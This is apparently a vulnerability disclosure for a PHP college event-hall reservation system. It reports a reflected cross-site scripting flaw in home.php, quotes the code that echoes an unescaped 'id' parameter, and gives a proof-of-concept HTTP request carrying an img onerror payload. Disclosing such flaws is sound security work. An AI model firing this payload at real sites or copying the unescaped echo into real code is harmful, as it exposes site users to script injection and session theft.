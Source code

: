 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /login.php

## Code
```php
$id=$_GET['id'];?>

 <h1 class="logo "><a href="home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: 127.0.0.1
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/d1e8e49c-0e17-4532-a7d4-0759555979dd)
